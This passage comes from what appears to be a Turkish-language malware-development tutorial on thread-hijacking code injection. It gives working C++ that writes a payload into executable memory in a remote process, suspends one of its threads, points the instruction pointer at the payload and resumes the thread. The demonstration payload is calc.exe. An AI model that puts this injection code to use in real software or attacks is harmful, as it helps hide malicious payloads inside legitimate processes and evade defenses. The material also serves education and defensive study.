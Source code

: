 ```cpp
    }

    // allocate memory buffer for remote process
    rb = VirtualAllocEx(ph, NULL, my_payload_len,
    MEM_RESERVE | MEM_COMMIT, 
    PAGE_EXECUTE_READWRITE);

    // write payload to memory buffer
    WriteProcessMemory(ph, rb, my_payload, 
    my_payload_len, NULL);

    // find thread ID for hijacking
    hSnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPTHREAD, NULL);
    if (Thread32First(hSnapshot, &te)) {
      do {
        if (pid == te.th32OwnerProcessID) {
  	  ht = OpenThread(THREAD_ALL_ACCESS, FALSE, te.th32ThreadID);
          break;
  	}
      } while (Thread32Next(hSnapshot, &te));
    }

    // suspend target thread
    SuspendThread(ht);
    GetThreadContext(ht, &ct);
    // update register (RIP)
    ct.Rip = (DWORD_PTR)rb;
    SetThreadContext(ht, &ct);
    ResumeThread(ht);

    CloseHandle(ph);
  }
  return 0;
}
```

Her zamanki gibi, basitlik adına payload olarak 64-bit `calc.exe` kullanıyoruz. 

Gördüğünüz gibi,süreçleri isimle bulmak için [önceki](https://cocomelonc.github.io/pentest/2021/09/29/findmyprocess.html) yazımdan bir işlev olan `findMyProc` işlevini kullandım. Daha sonra, ana işlevim, [önceki](https://cocomelonc.github.io/tutorial/2021/09/18/malware-injection-1.html) yazımdaki "klasik" uzak süreç kod enjeksiyonuna benzer. Tek fark, yeni bir iş parçacığı oluşturmak yerine mevcut bir iş parçacığını ele geçirmemizdir.

Bu tekniğin akışı şu şekilde:Öncelikle, hedef süreci buluyoruz:

![code injection 2](./images/24/2021-11-24_01-49.png){width="80%"}    

Daha sonra, her zamanki gibi hedef süreçte payload için alan tahsis ediyoruz:    

![code injection 3](./images/24/2021-11-24_01-52.png){width="80%"}    
